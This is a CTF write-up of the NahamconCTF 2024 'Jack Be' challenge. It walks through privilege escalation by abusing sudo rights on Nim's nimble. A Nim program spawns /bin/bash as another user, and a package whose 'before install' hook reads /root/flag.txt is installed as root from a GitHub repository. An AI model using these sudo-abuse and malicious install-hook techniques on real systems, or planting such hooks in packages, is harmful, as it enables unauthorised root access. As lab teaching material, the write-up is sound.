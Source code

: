 ```yaml
---
title: 'NahamconCTF 2024 -Jack Be Miscellaneous '
description: 'CTF writeup'
pubDate: 'may 25 2024'
heroImage: '/hinata.jpeg'
pinned: false
---
```


> NahamconCTF 2024 - Miscellaneous

### Challenge name :Jack Be

```
Author: @JohnHammond
Wow! Jack is trying to learn one of the hottest new programming languages!!
And on top of that, he wants you to learn it too! He has given you access to his development box. So generous of him! He said, "just don't hack it, please."

Escalate your privileges and retrieve the contents of the /root/flag.txt file.

Connect with:
# Password is "userpass"
ssh -p 32589 user@challenge.nahamcon.com
```

- Connecting to the ssh to proceed with the challenge.

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/nahamcon2024/initial.jpeg)

- We are currently `user` and we can run `(jack) NOPASSWD: /usr/bin/nimble run` as jack.

>Nim - Nim is a modern, high-performance, statically-typed compiled programming language that is designed for efficiency, expressiveness, and readability. It combines concepts from multiple programming paradigms including procedural, object-oriented, functional, and metaprogramming.

- Since we can run this programming lang as `jack` from `user`, we can try to import a package which helps to read system command.[like os in python]

- The idea is to create a package and make it excute `/bin/bash`[ which will land as `jack`]

ref: https://nim-lang.github.io/nimble/create-packages.html

> Nimble is the package manager for the Nim programming language. It facilitates the management of Nim libraries and applications by handling dependencies, installation, and distribution.

- With the above reference we can try to create a package and make a malicious nim file to execute command.

```
#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()
```

- We first need to create a new project and we can name it `exploit`.

```
$ nimble init
      Info: Package initialisation requires info which could not be inferred.
        ... Default values are shown in square brackets, press
        ... enter to use them.
      Using "exploit" for new package name
      Using username for new package author
      Using "src" for new package source directory
    Prompt: Package type?
        ... Library - provides functionality for other packages.
        ... Binary  - produces an executable for the end-user.
        ... Hybrid  - combination of library and binary
        ... For more information see https://goo.gl/cm2RX5
     Select Cycle with 'Tab', 'Enter' when done
   Choices:> library <
             binary  
             hybrid  
```

```
.
├── exploit.nimble
├── src
│   ├── exploit
│   │   └── exploit.nim
│   └── main.nim
└── tests
    ├── config.nims
    └── test1.nim
```

```
user@jackbe:~/exploit$ cat exploit.nimble
# Package

version       = "0.1.0"
author        = "Anonymous"
description   = "A new awesome nimble package"
license       = "MIT"
srcDir        = "src"
bin           = @["main"]

# Dependencies

requires "nim >= 1.2.6"
```

- Your exploit.nimble file should like this above to add the submodule main to execute the command.

- Now the next step is to build - `nimble build` and run as `sudo -u jack /usr/bin/nimble run` to land in `jack` and also we should run `chmod 777 .`,so that the `jack` user can access the `user` user files.

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/nahamcon2024/second.jpeg)

- No we got into jack!!!

```
jack@jackbe:/home/user/exploit$ sudo -l
User jack may run the following commands on jack-be-24883393153aa58c-6544847df5-h8x7k:
    (root) NOPASSWD: /usr/bin/nimble install *
```

- With jack, we can run `/usr/bin/nimble install *` as root! and thats our escalation point.

ref : https://nim-lang.github.io/nimble/use-packages.html

- We can either give `/usr/bin/nimble install <package name>` or give `/usr/bin/nimble install <githuburl>`

```
jack@jackbe:~$ cat learning_nim.md 
# Learning Nim

> written by Jack :)

---------------------

TODO:

- [] Learn Nim

NOTES:

Dependency downloads and connections have been giving me trouble.

1. I left `/etc/hosts` as world-writable as a temporary fix
2. I added networking capabilities to Python to host easy local dev servers

MORE TODO:

- Clean up the temporary fixes above LOL
```

- Jack also had the above file in his directory, but my method of solution does not need the above hints.

- I just need to fork a existing git package and make changes to exec command while installing.

- I made one :p ! - https://github.com/kabilan1290/test-repo-rce.nim/

```
#cmd.nimble

# Package

version       = "1.4.2"
author        = "Samantha Marshall"
description   = "interactive command prompt"
license       = "BSD 3-Clause"
srcDir        = "src"

skipDirs      = @["tests"]

# Dependencies

requires "nim >= 0.16.0"

# Hooks

# Exploit
before install:
  echo "Exploiting"
  exec "echo `whoami`"
  exec "cat /root/flag.txt"
```

- Running `sudo -u root /usr/bin/nimble install https://github.com/kabilan1290/test-repo-rce.nim`,before installation , it will read out the `flag` for us as `root`.

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/nahamcon2024/flag.jpeg)


- Thanks for reading !